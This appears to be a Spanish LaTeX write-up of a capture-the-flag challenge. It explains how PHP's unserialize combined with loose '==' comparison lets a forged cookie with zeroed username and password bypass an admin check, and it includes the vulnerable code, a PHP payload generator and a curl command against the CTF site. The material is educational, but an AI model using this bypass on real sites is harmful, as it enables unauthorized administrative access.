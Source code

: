 \documentclass[11pt, spanish]{report}
\begin{document}
\section*{Ping a Google}
\section*{Serialización}

\begin{lstlisting}[language=JavaScript]
$data = unserialize($loginCookie);

if ($data['username'] == $adminName && 
    $data['password'] == $adminPassword) {
    $adminPrivileges = true;
} else {
    $adminPrivileges = false;
}

\end{lstlisting}
Esta prueba nos hacía falta una base de conocimientos en PHP y lo primero notable es el uso de 'unserialize' y el uso de dos iguales para hacer comparaciones. \\
Juntando estas dos últimas observaciones vamos a poder saltarnos el sistema. \\

\begin{enumerate}
	\item El uso de serialize nos permite conservar el tipo de datos original, sabemos que '==' se pone un poco nervioso a la hora de comparar dos variables de tipo diferente.
	\item En la documentación de PHP, nos informan que 0 == 'cualquierString' es True. ¡BINGO! Ya tenemos casi todo hecho :)
	\item Ahora tenemos que genera el payload que introducir en la cookie, para ello acudimos a PHP.
	\item En la carpeta files hay un fichero que se llama serialize\_flag.php que contiene un pequeño script PHP para generar el payload que tenemos que escribir como cookie.
	\begin{lstlisting}[language=JavaScript]
<?php
	
$data = [
    'username' => 0,
    'password' => 0,
];
	
echo urlencode(serialize($data));
\end{lstlisting}
	\item Finalmente, con el payload generado hacemos un cURL a la web del CTF con nuestra cookie generada y...
	\begin{lstlisting}
	curl -v --cookie "SecAdminCTF=payload.."
	https://ctf.secadmin.es/flag4/index.php
	\end{lstlisting}
	\includegraphics[width=\textwidth]{flag_serialize.png}
	\item ¡Conseguido!
\end{enumerate}
\end{document}
